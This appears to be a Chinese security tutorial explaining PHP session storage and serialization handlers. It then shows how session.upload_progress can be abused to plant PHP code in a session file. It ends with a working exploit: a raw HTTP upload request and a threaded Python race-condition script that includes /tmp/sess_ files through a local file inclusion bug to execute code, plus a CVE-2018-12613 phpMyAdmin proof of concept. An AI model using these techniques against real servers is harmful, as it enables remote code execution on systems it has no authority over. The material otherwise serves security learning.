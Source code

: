 从session开始，session究竟是什么？

HTTP是一个无状态的协议，一个用户访问多次一个网站，网站怎么判断这多次访问是来自于一个用户呢？通过IP显然是不行的，因为存在共享IP的情况。

这时候，网站可以将用户的id存储在cookie中，每次用户访问的网站时浏览器将会把cookie一起发送，然后网站在数据库中进行查询，即可确定究竟是哪个用户访问了自己。

但这种方式也带来一个问题，Cookie是用户可控的，用户可以将id修改成任意其他用户的id，即可伪造身份了，这就是很多网站存在”Cookie欺骗漏洞“的原因。

所以，我们在Cookie的基础之上增加了Session这个概念：用户第一次登录网站的时候，网站生成一个随机的字符串作为Session id保存在其Cookie中，实际上真实的用户名、邮箱等信息存储在服务端，并和Session id 一一对应。这种情况下，用户下次访问网站的时候，网站根据Session id拿到用户真实的id，进一步做后续操作。

由于Session id是随机生成的字符串，不同用户之间是不知道对方的Session id 的，所以也就可以避免伪造身份的情况了。

那么，既然后端要存储用户的信息，就需要有地方存。Java Web默认情况下是在内存里维护一个哈希表，其中包含Session id和具体数据的关系，但因为内存是在进程中的，所以当重启Web容器后Session表也就失效了，所有用户都需要重新登录。

PHP将Session存储在文件中，每个session id一个文件，文件内容是序列化后的会话数据。这也就避免了重启Web容器后Session失效的问题。

php支持三种序列化方法，分别是：

- php_serialize
- php
- php_binary

其中，方法php和php_binary几乎是相同的，只是php使用‘|’作为键名与键值的分隔符，而php_binary是在第一位指定键名的长度，剩下的内容作为键值。php_serialize是5.5.4以后加入的新的序列化方法，其效果就等于直接使用php的serialize函数。

如果不指定，PHP默认使用第二种，也就是”php“作为session序列化的方法。

谈了session序列化方式，就得提及两个有趣得漏洞。

第一个漏洞是：[phpcodz/research/pch-013.md at master · 80vul/phpcodz (github.com)](https://github.com/80vul/phpcodz/blob/master/research/pch-013.md)

在设置session和读取session两个阶段，如果使用了不同的序列化方法，将会导致任意对象注入，进而导致反序列化漏洞。

这点很好理解，PHP默认的序列化方式php是不允许键名存在竖线的，而php_serialize没有这个限制。那么，如果我们设置session的时候使用了后者，我们设置了一个包含竖线的Session，而读取时使用前者，因为竖线是其中的分隔符，所以读取的时候会按照竖线分割键值，这样就破坏了原本的序列化内容，成功注入自己的对象。

默认情况下，session.use_strict_mode值是0.此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=qwer1234，PHP将会在服务器上创建一个文件：/tmp/sess_qwer1234。

这个技巧对于漏洞利用带来很大帮助，比如phpmyadmin4.8.1文件包含漏洞（CVE-2018-12613）,就是去包含session文件。

>POC：
>
>进入phpmyadmin后，执行一下`SELECT '<?=phpinfo()?>';`然后包含你自己的session文件。

但是这个技巧的实现需要满足一个条件：服务器上需要已经初始化Session。

在PHP中。通常初始化Session的操作是执行session_start()。所以我们在审计PHP代码的时候，会在一些公共文件或入口文件里看到上述代码。**那么，如果一个网站没有执行这个初始化操作，是不是就不能在服务器上创建文件了呢？**

这就是涉及到几个配置项。

session.auto_start顾名思义，如果开启这个选项，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但是默认情况下，是关闭的。

session.upload_progress最初是PHP为上传进度条设计的一个功能，在上传文件较大的情况下，PHP将进行流式上传，并将进度信息放在Session中（包含用户可控的值），即使此时用户没有初始化session，PHP也会自动初始化session。

而且！默认情况下session.upload_progress.enabled是为on的，也就是说这个特性默认开启，非常nice。

如何利用这个特性呢？

```http
POST /test.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=--------2015270941
Cookie: PHPSESSID=aaaaaaa
Content-Length: 234

----------2015270941
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

<?=phpinfo()?>
----------2015270941
Content-Disposition: form-data; name="file"; filename="test.txt"

...
----------2015270941--
```

上传结束后，这个Session将会被自动清除（由session.upload_progress.cleanup定义），我们只需要条件竞争，赶在文件被清楚前利用即可。

所以，在文件包含漏洞找不到可供包含的文件时，可以利用这个技巧。

比如，目标服务器上有这样一段代码：

```solidity
    <?php
    if (isset($_GET['file'])) {
        include './' . $_GET['file'];
    }
```

用一个简单的python脚本，即可实现代码执行漏洞的利用：

```python
import io
import requests
import threading

sessid = 'ph1'


def t1(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        response = session.post(
            'http://localhost/test.php',
            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?=phpinfo()?>'},
            files={'file': ('a.txt', f)},
            cookies={'PHPSESSID': sessid}
        )


def t2(session):
    while True:
    	response = session.get(
           f'http://localhost/test.php?file=../../../../../../../../tmp/sess_{sessid}'
        	)
        print(response.text)


with requests.session() as session:
    t1 = threading.Thread(target=t1, args=(session, ))
    t1.daemon = True
    t1.start()

    t2(session)
```

